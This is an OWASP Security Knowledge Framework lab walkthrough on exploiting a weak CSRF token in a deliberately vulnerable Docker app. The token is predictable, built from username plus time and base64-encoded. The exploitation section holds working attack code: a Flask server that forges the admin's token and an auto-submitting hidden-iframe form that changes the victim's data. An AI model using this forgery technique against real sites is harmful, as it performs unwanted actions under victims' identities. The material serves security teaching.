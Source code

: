 # CSRF - Weak

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:csrf-weak
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:csrf-weak
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

CSRF is an attack that tricks the victim into submitting a malicious request. It inherits the identity and privileges of the victim to perform an undesired function on the victim's behalf. For most sites, browser requests automatically include any credentials associated with the site, such as the user's session cookie, IP address, Windows domain credentials, and so forth. Therefore, if the user is currently authenticated to the site, the site will have no way to distinguish between the forged request sent by the attacker and a legitimate request sent by the victim.

CSRF attacks target functionality that causes a state change / data mutation on the server, such as changing the victim's email address or password, or purchasing something. Forcing the victim to retrieve data doesn't benefit an attacker because the attacker doesn't receive the response, the victim does. As such, CSRF attacks target state-changing requests.

It's sometimes possible to store the CSRF attack on the vulnerable site itself. Such vulnerabilities are called "stored CSRF flaws". This can be accomplished by simply storing an IMG or IFRAME tag in a field that accepts HTML, or by a more complex cross-site scripting attack. If the attack can store a CSRF attack in the site, the severity of the attack is amplified. In particular, the likelihood is increased because the victim is more likely to view the page containing the attack than some random page on the Internet. The likelihood is also increased because the victim is sure to be authenticated to the site already.

Lets start the application and login with the default credentials.

```
username : admin
password: admin
```

![](../../.gitbook/assets/python/CSRF-Weak/1.png)

When we are loggedin to the application we can see that we can set our favorite color and this will be stored in the session of the user.

![](../../.gitbook/assets/python/CSRF-Weak/2.png)

If we inspect the request with an intercepting proxy we can see that the application is performing a POST request that results in a data mutation, storing our favorite color into the session of the user and displaying this back to the user in the HTML website.

![](../../.gitbook/assets/python/CSRF-Weak/3.png)

Also we can see that the application is using a csrf_token

```html
    <form method="post" action="/update">
        <input type="hidden" class="form-control" name="csrf_token" value="<%=csrf_token %>">
        <input type="text" class="form-control" name="color" placeholder="favorite color"/><br/>
        <button class="btn btn-primary" type="submit">Submit Button</button></div>
    </form>
```

Looks like it's Base64 encoded, let's first decoded the URL-encoded format then base64 decode:

![](../../.gitbook/assets/python/CSRF-Weak/4.png)

The csrf token is simply username + time.

Checking the application code we can how this csrf_token is being implemented.

```
    time = strftime("%H:%M", gmtime())
    csrf = request.form['username'] + time
    session['csrf_token'] = base64.b64encode(csrf.encode())
    csrf_token = str(session['csrf_token'], 'utf-8')
```

## Exploitation

In order to to exploit this vulnerability we need to set up our evil webserver to do the malicious CSRF using a POST request from and sending the weak csrf_token with. We could achieve this by creating the following python flask application:

```python
import base64
from time import gmtime, strftime
from flask import Flask, request, url_for, render_template, redirect, make_response

app = Flask(__name__, static_url_path='/static', static_folder='static')

app.config['DEBUG'] = True

@app.route("/")
def start():
    time = strftime("%H:%M", gmtime())
    csrf = "admin" + time
    csrf_raw = base64.b64encode(csrf.encode())
    csrf_token = str(csrf_raw, 'utf-8')
    return render_template("evil.html", csrf_token = csrf_token)

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to &gt; evil_server.py and run the commands below to install some dependencies.

```text
$ pip3 install flask
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

Now that the service is running we want to serve the malicious piece of javascript that is responsible for performing the malicious CSRF POST request.

```html
<iframe style="display:none" name="csrf-frame"></iframe>
<form
  method="POST"
  action="http://localhost:5000/update"
  target="csrf-frame"
  id="csrf-form"
>
  <input type="hidden" name="csrf_token" value="<%= csrf_token %>" />
  <input type="hidden" name="color" value="Hackzord!" />
  <input type="submit" value="submit" />
</form>
<script>
  document.getElementById("csrf-form").submit();
</script>
```

Save the snippet above to &gt; templates/evil.html and run the command below to start our evil application.

```text
$ python3 evil_server.py
```

Now when we have in the browser tab our active session of the application we can open a new tab where we will load our evil page we just created.

```text
http://localhost:1337/
```

![](../../.gitbook/assets/python/CSRF-Weak/5.png)

This will now create a POST request to the application and changing the value of blue to the new value of 'Hackzord!' As you can see the Referer is set to our evil website where the request originated from and we have our forged csrf_token with the request.

![](../../.gitbook/assets/python/CSRF-Weak/6.png)

Also when we refresh the original page of the application we can see that the new vaulue has been replaced with the content of our evil app.

![](../../.gitbook/assets/python/CSRF-Weak/7.png)

## Additional sources

{% embed url="https://owasp.org/www-community/attacks/csrf" %}

